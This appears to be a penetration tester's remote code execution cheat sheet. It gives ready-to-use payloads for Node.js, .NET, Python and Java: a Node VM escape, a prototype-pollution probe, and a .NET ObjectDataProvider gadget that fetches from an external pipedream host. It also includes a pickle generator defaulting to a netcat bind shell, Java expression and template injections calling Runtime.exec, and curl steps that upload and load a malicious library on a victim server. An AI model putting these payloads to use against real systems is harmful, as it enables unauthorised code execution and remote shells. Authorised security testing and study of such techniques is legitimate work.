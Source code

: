 ```yaml
---
description: Helpful stuff
---
```


# Remote Code Execution

## Node js

**Bypassing / slashes**

```javascript
\\\\x2f
```

**Get object properties \(can be helpful in debugging\)**

```text
Object.getOwnPropertyNames(
```

**Node VM escape PoC**

```text
this.context.constructor.constructor('return process')().mainModule.require('child_process').exec('touch \\\\x2ftmp\\\\x2f11111')
```

**Proto pollution detection**

```text
{"constructor": {"prototype": {"a0": true}}}
```

## DotNet

For debugging purposes you can use dnSpy.  
IIS process, that is working with your [ASP.Net](http://asp.net/) code is w3wp.exe, so you should use it to attach.   
We then need to access Debug &gt; Windows &gt; Modules to list all the modules loaded by our w3wp.exe process.

What entry points to search for: 

```csharp
Cookies
HttpContext.Current.Request.IsAuthenticated
Request.getParameter
context.User = Thread.CurrentPrincipal
```

How you can fuzz app methods:

\(References **DotNetNuke.dll** and **PresentationFramework.dll**\)

```csharp
using System.IO;
using System.Xml.Serialization;
using DotNetNuke.Common.Utilities;
using System.Windows.Data;

namespace DotNetExploit
{
    class MainClass
    {
        public static void Main(string[] args)
        { 
            Console.WriteLine("Hello World!");
            var myODP = new ObjectDataProvider();
            myODP.ObjectInstance = new FileSystemUtils();
            myODP.MethodName = "PullFile";
            myODP.MethodParameters.Add("<https://enp50ybm0r.x.pipedream.net>");
            myODP.MethodParameters.Add("POC");
            Console.WriteLine("Done!");
        }
    }
}
```

## Python

Look for vulnerable libraries by using snyk.io and ossindex

Pickle exploit example

```python
import cPickle
import sys
import base64

DEFAULT_COMMAND = "netcat -c '/bin/bash -i' -l -p 4444"
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

print base64.b64encode(cPickle.dumps(PickleRce()))
```

## Java

**Equals\(&lt;userinput&gt;\) vector**

```text
"".equals(javax.script.ScriptEngineManager.class.getConstructor()
.newInstance().getEngineByExtension("js")
.eval("java.lang.Auntime.getAuntime().exec(\\"touch /tmp/owned.jsp\\")"
.replaceAll("A","R")))
```

**controller.getClass\(\).getMethod\(task\).invoke\(controller\);**

```text
rawJson={"controller":"java.lang.ProcessBuilder","task":"start","data":["touch","hacked.jsp"]}
```

**renderFragment\(\)**

```text
user=&temp=#set($s="")#set($stringClass=$s.getClass()
.forName("java.lang.Runtime").getRuntime()
.exec("touch hacked.jsp"))$stringClass
```

**System.loadLibrary\(\)**

1. Upload file:

`curl -v -F 'upload=@/tmp/libDEOBFUSCATION_LIB.so' [<http://victim.org/>](<http://victim.org/>)`

1. Load malicious library:

`curl -v --cookie 'env=.java.library.path@/var/myapp/data'`

